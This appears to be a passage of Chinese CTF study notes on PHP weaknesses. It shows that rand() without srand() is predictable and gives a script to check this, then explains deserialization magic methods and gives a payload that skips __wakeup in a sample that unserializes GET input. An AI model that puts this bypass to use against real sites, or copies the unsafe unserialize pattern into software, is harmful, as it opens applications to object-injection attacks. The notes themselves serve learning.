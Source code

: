 rand() 函数在产生随机数的时候没有调用 srand()，则产生的随机数是有规律可询的。具体的说明请看这里。产生的随机数可以用下面这个公式预测:


一般预测值可能比实际值要差1  
state[i] = state[i-3] + state[i-31]  
可以用下面的代码验证一下  


```
<?php
$randStr = array();
for($i=0;$i<50;$i++) { //先产生 32个随机数
$randStr[$i]=rand(0,30);
if($i>=31) {
echo "$randStr[$i]=(".$randStr[$i-31]."+".$randStr[$i-3].") mod 31"."\n";
}
}
?>
```

### 反序列化

__construct()：构造函数，当对象创建(new)时会自动调用。但在unserialize()时是不会自动调用的。
__destruct()：析构函数，当对象被销毁时会自动调用。
__wakeup() ：如前所提，unserialize()时会自动调用。
PHP unserialize() 后会导致 __wakeup() 或 __destruct() 的直接调用，中间无需其他过程。因此最理想的情况就是一些漏洞/危害代码在 __wakeup() 或 __destruct() 中。

#### __wakeup 函数绕过

PHP 有个 Bug，如果反序列化出现问题，会不去执行 __wakeup 函数，例如：



```
<?php
class xctf
{
public $flag = "111";
public function __wakeup()
{
exit('bad requests');
}
}
//echo serialize(new xctf());
echo unserialize($_GET['code']);
echo "flag{****}";
?>
```

使用这个 payload 绕过 __wakeup 函数



```
O:4:"xctf":1:{s:4:"flag";s:3:"111";}
http://www.example.com/index.php?code=O:4:"xctf":2:{s:4:"flag";s:3:"111";}
```
